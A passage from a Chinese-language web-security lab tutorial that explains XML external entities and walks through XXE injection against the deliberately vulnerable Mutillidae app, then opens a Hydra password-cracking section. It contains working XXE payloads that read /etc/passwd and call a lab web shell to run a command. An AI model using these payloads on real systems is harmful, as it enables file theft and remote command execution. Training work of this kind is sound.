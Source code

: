   此定义意味着对实体的任何使用都引用＆myentity; XML文档中的内容将替换为定义的值：“ my entity value”。

+ **XML外部实体**：XML外部实体是一种自定义实体，其定义位于声明它们的DTD之外。
   外部实体的声明使用SYSTEM关键字，并且必须指定一个URL，应从该URL加载实体的值。例如：

  ```
  <！DOCTYPE foo [<！ENTITY ext SYSTEM“ http://normal-website.com”>]>
  ```

  URL可以使用file：//协议，因此可以从文件加载外部实体。例如：

  ```
  <！DOCTYPE foo [<！ENTITY ext SYSTEM“ file：/// path / to / file”>]>
  ```

  XML外部实体提供了引发XML外部实体攻击的主要方法。

### 步骤

1. 访问[owaspbwa][]/mutillidae，others | XML External Entity Injection | XML Validator

2. 外部实体

   ```xml
   <!DOCTYPE fileEntity [
   <!ELEMENT fileEntity ANY>
   <!ENTITY fileEntity SYSTEM "file:///etc/passwd">
   ]>
   <somexml><message>Hello World &fileEntity;</message></somexml>
   ```

   可以访问/etc/passwd文件，使用这个技巧,我们就可以提取系统中的任何文件，只要它们可以在 Web 服务器的运行环境被用户读取。

3. 也可以使用外部实体加载页面

   ```xml
   <!DOCTYPE fileEntity [
   <!ELEMENT fileEntity ANY>
   <!ENTITY fileEntity SYSTEM
   "http://192.168.56.102/dvwa/hackable/uploads/ webshell.php?
   cmd=/sbin/ifconfig">
   ]>
   <somexml><message>Hello World &fileEntity;</message></somexml>
   ```



## 6.4 使用Hydra爆破密码

Hydra 是网络登录破解器，也就是在线的破解器,这意味着它可以用于通过爆破网络服务来发现登录密码。

### 准备

准备用户名文件user.txt和口令文件pass.txt

### 步骤

1. 使用burp分析登录请求如何发送


[owaspbwa]: http://192.168.2.167